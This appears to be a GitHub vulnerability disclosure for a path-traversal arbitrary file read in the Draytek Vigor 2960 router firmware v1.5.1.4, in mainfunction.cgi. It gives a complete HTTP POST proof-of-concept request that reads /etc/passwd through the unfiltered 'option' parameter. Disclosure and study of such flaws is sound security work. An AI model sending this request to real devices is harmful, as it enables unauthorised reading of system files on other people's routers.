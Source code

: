 # Draytek vigor 2960 v1.5.1.4 has arbitrary file read vulnerability

## OverView

Product: Draytek Vigor 2960 v1.5.1.4(the newest version)
Firmware: v1.5.1.4 https://fw.draytek.com.tw/Vigor2960/Firmware/v1.5.1.4/Vigor2960_v1.5.1.4.zip

## Detail  

The vulnerability is in the file `mainfunction.cgi`, function `sub_1DA58`

It doesn’t filter the var `option`, so we can use `/../`to read arbitrary file.

![image-20230225142215786](images/image-20230225142215786.png)

## poc 

```
POST /cgi-bin/mainfunction.cgi HTTP/1.1
Host: xxxxxxxxxxx
Content-Length: 65
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36
(KHTML, like Gecko) Chrome/105.0.0.0 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Accept: */*
Origin: xxxxxxxxx
Referer: xxxxxxxxx
Accept-Encoding: gzip, deflate
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8
Cookie: SESSION_ID_VIGOR=7:26EB81E4EA6DC603661320EBD1C938DC
Connection: close
action=getSyslogFile&option=/../../etc/passwd&rtick=1663484572009
```



![image-20230225142232249](images/image-20230225142232249.png)